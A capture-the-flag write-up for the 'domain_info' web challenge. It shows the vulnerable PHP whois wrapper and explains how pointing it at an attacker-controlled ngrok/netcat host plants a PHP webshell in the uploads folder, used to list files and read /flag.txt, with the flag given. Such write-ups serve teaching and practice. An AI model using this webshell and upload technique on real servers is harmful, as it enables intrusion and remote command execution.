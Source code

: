 # domain_info

#### Category: Web Exploitation

#### Difficulty: Easy

#### Type: White Box

#### Description: Our team found an suspicious server which allows dns queries, find out how to exploit it. Ngrok could be helpful! Flag is : `/flag.txt`

#### Author: skyv3il

#### Files: [challenge.zip](https://github.com/emperorpenguincat/Public-Writeups/blob/main/UniVsThreats%20CTF%202025/domain_info/challenge.zip)

#### Preview:
![image](https://github.com/user-attachments/assets/dc750e76-388a-4a5b-b5c9-af43c96b95ff)

## Solution
<details>

The web-based challenge gave us a PHP source code and a webpage that had similar features to a WHOIS website. Firstly, we use simple queries to test out the web response to understand its behaviour.

![image](https://github.com/user-attachments/assets/7a2594fa-fe26-4256-9c65-0fc537586de7)

As we can see, a randomly generated filename containing the query response is kept in the `/uploads/` directory, and the website allows us to specify any file type extension we want to.

![image](https://github.com/user-attachments/assets/4003346f-4e69-40c1-afbf-4b83d0678f85)

However, the file's response has no relevant information, so let's examine the source code to identify the website's potential vulnerabilities.

### Source Code (PHP)

```php
<?php
function cleanUploads($path, $minutes = 2) {
    foreach (glob($path . "/*") as $file) {
        if (is_file($file) && (time() - filemtime($file)) > ($minutes * 60)) {
            unlink($file);
        }
    }
}

function randomString($length = 6) {
    return substr(str_shuffle("abcdefghijklmnopqrstuvwxyz0123456789"), 0, $length);
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $host = $_POST['host'];
    $port = $_POST['port'];
    $query = $_POST['query'];
    $savefile = $_POST['savefile'];

    // Basic anti-command injection filters
    foreach ([$host, $port, $query, $savefile] as $input) {
        if (preg_match('/[;&|`$()<>]/', $input)) {
            die("<p style='color:red;'>❌ Command Injection Detected!</p>");
        }
    }

    // Extra simple validation
    if (!filter_var($host, FILTER_VALIDATE_IP) && !filter_var($host, FILTER_VALIDATE_DOMAIN)) {
        die("<p style='color:red;'>❌ Invalid Hostname</p>");
    }

    // Safe escaping
    $host = escapeshellarg($host);
    $port = escapeshellarg($port);
    $query = escapeshellarg($query);

    // Create uploads folder if not exists
    $uploadDir = __DIR__ . '/uploads';
    if (!is_dir($uploadDir)) {
        mkdir($uploadDir, 0755, true);
    }

    // Cleanup old files
    cleanUploads($uploadDir, 2); // Delete files older than 2 minutes

    // Randomize file name
    if (empty($savefile)) {
        $savefile = "output.txt";
    }
    $randomPrefix = randomString();
    $finalName = $randomPrefix . "_" . basename($savefile);
    $savepath = $uploadDir . '/' . $finalName;

    // Execute
    $command = "whois -h " . $host . " -p " . $port . " " . $query  . " >  " . escapeshellarg($savepath);
    system($command);
    echo "Command: <pre>" . htmlspecialchars($command) . "</pre>";
    echo "<h2>✅ Whois Executed. Saved in:</h2>";
    echo "<pre>/uploads/" . htmlspecialchars($finalName) . "</pre>";
    echo "<p><a style='color:#00ffea;' href='/uploads/" . htmlspecialchars($finalName) . "' target='_blank'>Click here to view your file</a></p>";
}
?>
```

Based on the provided source code, we can observed that it prevents simple command injection by blacklisting shell characters using `preg_match()` and `escapeshellarg()` function to execute shell commands securely so direct command injection will be difficult. It also uses `filter_var()` to validate the host and variable `$command` where the query will be executed inside the `system()` function. Since the website accepts host and port, we can establish a simple reverse shell like this: 

#### Set up a ngrok TCP tunnel

*Note: To create TCP tunneling using ngrok, it is required to fill credit card info on your account but don't worry. It won't charged you.*

`ngrok tcp 1337`

Then, the ngrok application will assign us a random host IP address and port to which we can connect later.

#### Set up a netcat listener

`nc -lvnp 1337`

Before submitting the request, we need to configure the listener so that when the victim executes the query, it connects to our host.

#### Fill up the host and port provided by ngrok

We can send the request after completing the form, which looks like this. Ensure the file type is a `.php` so that the php webshell which will be injected later on can be recognized.

![image](https://github.com/user-attachments/assets/965a1089-0260-4c5d-b0c5-08125f58bb59)

When the request has been sent, the netcat connection will be established. We can see that string "test" were displayed which we specified earlier indicates that the connection is successful. 

![image](https://github.com/user-attachments/assets/231f603d-5fb5-4bbb-8fa6-a1b2c6e1341d)

Then, we can inject a simple PHP webshell: `<?php system($_GET['cmd'];)?>`. The webshell will allow us to use UNIX commands on the cmd parameter.

![image](https://github.com/user-attachments/assets/42a50d9d-df3e-4a2b-8ed9-cca4358eb3a0)

After successfully injected the webshell, we can access the file to view the output.

![image](https://github.com/user-attachments/assets/7d7d94fc-3833-4aec-a8c4-c692e2a4a324)

The php script's output indicated an error regarding the null argument because we did not specify any commands in the `?cmd` parameter.  This shows that the command was successfully injected.

![image](https://github.com/user-attachments/assets/d31e6ea9-1e77-40e4-878a-14a1b37dbbb1)

We may now use UNIX commands in the `?cmd` argument and directory listing command such as `ls` to display the files on the server.  Although the challenge stated that the flag is stored in `/flag.txt`, employing this approach may provide greater flexibility and efficiency for future challenges in which the filename or path is not specified.

![image](https://github.com/user-attachments/assets/a08d6ed9-c5e4-4217-8a89-6f9b90c4068f)

Then, for the next steps, we can simply access the `/flag.txt` file to acquire the flag for the challenge.

![image](https://github.com/user-attachments/assets/bcf6fbc3-7431-45d7-a3c1-dca89b564344)

#### Flag
> UVT{M4l1c10us_Wh0_1s_C0mmand_4nd_upl0ad}

</details>
